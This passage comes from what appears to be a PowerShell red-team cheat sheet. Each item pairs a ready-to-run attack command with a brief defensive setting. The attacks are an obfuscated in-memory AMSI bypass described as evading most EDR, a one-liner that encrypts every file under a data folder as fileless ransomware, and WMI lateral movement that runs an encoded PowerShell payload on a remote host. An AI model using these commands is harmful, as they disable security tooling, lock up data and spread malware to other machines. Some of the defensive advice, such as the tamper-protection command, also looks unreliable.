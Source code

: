 
### **3. AMSI Bypass (Advanced)**  
#### **Offensive Command**  
```powershell  
# Patch AMSI in-memory (undetectable by most EDR)  
[Ref].Assembly.GetType('System.Management.Automation.Am' + 'siUtils').GetField('amsiCon' + 'text', 'NonPublic,Static').SetValue($null, $null)  
```  
- **Purpose**: Disables AMSI without touching disk.  

#### **Defense**  
- Enable **Tamper Protection** in Defender:  
  ```powershell  
  Set-MpPreference -EnableTamperProtection Enabled  
  ```  

---

### **4. Fileless Ransomware**  
#### **Offensive Command**  
```powershell  
# Encrypt files using built-in .NET libraries  
Get-ChildItem C:\Data -Recurse | % { $bytes = [IO.File]::ReadAllBytes($_.FullName); $enc = [Security.Cryptography.ProtectedData]::Protect($bytes, $null, 'CurrentUser'); [IO.File]::WriteAllBytes("$($_.FullName).encrypted", $enc) }  
```  
- **Purpose**: Encrypts files without dropping malware.  

#### **Defense**  
- Enable **Controlled Folder Access**:  
  ```powershell  
  Set-MpPreference -EnableControlledFolderAccess Enabled  
  ```  

---

### **5. Lateral Movement via WMI**  
#### **Offensive Command**  
```powershell  
# Execute malware on remote host using WMI  
Invoke-WmiMethod -Class Win32_Process -ComputerName 192.168.1.100 -Credential (Get-Credential) -Name Create -ArgumentList "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAY..."  
```  
- **Purpose**: Spreads malware across the network.  

#### **Defense**  
- Disable WMI if unused:  
  ```powershell  
  Stop-Service Winmgmt; Set-Service Winmgmt -StartupType Disabled  
  ```  

---
